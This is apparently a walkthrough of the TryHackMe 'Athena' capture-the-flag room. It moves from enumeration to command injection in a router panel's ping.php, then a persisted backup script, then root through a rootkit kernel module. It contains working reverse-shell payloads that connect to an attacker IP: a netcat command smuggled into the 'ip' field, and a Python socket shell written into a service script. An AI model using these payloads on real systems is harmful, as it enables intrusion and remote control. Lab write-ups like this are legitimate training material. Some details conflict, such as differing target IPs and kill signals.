

# [Athena THM](https://tryhackme.com/room/4th3n4)

## NMAP scan

sudo nmap -A -sC -sV -v -O --top-ports=1000 10.48.157.227

Samba's there but first enumeration...

## Directory scan

gobuster dir -r -u http://10.48.157.227/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .conf,.config,.txt,.php,.html,.js,.css,.json -t 25

Found `/myrouterpanel` page and `/myrouterpanel/ping.php` end-point with command injection vulnerability.

## Gaining foothold

So used `nc -lvnp 4567` on mine, and then

```
curl 'http://10.48.143.237/myrouterpanel/ping.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://10.48.157.227' \
  -H 'Referer: http://10.48.157.227/myrouterpanel/' \
  -H 'Sec-GPC: 1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw 'ip=127.0.0.1%0Anc 192.168.150.241 4567 -e /bin/bash&submit=' \ # `127.0.0.1%0A` => `127.0.0.1;`
  --insecure
```

Stabilized the shell!

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl+z
> stty raw -echo; fg
# we done
```

## Elevating access

```
> whoami # `www-data`
# ran linpeas - found file > /etc/systemd/system/athena_backup.service which runs as root
> cat /etc/systemd/system/athena_backup.service # found cron that runs as `athena`
[Unit]
Description=Backup Athena Notes

[Service]
User=athena
Group=athena
ExecStart=/bin/bash /usr/share/backup/backup.sh
Restart=always
RestartSec=1min

[Install]
WantedBy=multi-user.target
> # /usr/share/backup/backup.sh runs as `athena` and user `www-data` has rw- access to it
> echo "python3 -c 'import os, socket, subprocess; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"192.168.150.241\", 4568)); os.dup2(s.fileno(), 0);os.dup2(s.fileno(), 1);os.dup2(s.fileno(), 2);subprocess.call([\"/bin/sh\", \"-i\"]);'" > /usr/share/backup/backup.sh
```

## Got access on another `nc -lvnp 4568`

Look at line `0x80004ae`, condition is to kill process 59!


```
> # stabilization first
> cd ~
> ls -al
...
> cat user.txt # flag-1
> sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
> cp /mnt/.../secret/venom.ko ~/venom.ko
> python3 -m http.server 7000 # wget <IP&PORT>/venom.ko
> # ran cutter on local for analysis => it's a rootkit => can be triggered by `kill -57 0`
> sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
> kill -57 0
> whoami
> cat /root/root.txt # got root flag
```
